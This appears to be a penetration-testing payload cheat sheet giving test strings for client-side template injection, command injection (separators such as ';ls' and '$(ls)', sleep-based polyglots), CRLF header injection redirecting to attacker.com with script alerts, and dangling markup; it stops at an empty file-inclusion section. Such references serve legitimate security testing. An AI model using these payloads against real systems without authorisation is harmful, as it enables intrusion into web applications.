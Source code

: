 ```
## [[../client-side-template-injection-csti.md|Client Side Template Injection]]

### Basic Tests

```
{{7*7}}
[7*7]
```
```
### Polygloths

```bash
{{7*7}}[7*7]
```
```
## [[../command-injection.md|Command Injection]]

### Basic Tests

```bash
;ls
||ls;
|ls;
&&ls;
&ls;
%0Als
`ls
$(ls)
```
```
### Polygloths

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/**/
```
```
## [[../crlf-0d-0a.md|CRLF]]

### Basic Tests

```bash
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
```
## Dangling Markup

### Basic Tests

```html
<br><b>THIS IS AND INJECTED TITLE
==========================

```
```
## [[../file-inclusion/index.html|File Inclusion/Path Traversal]]

### Basic Tests

```bash
```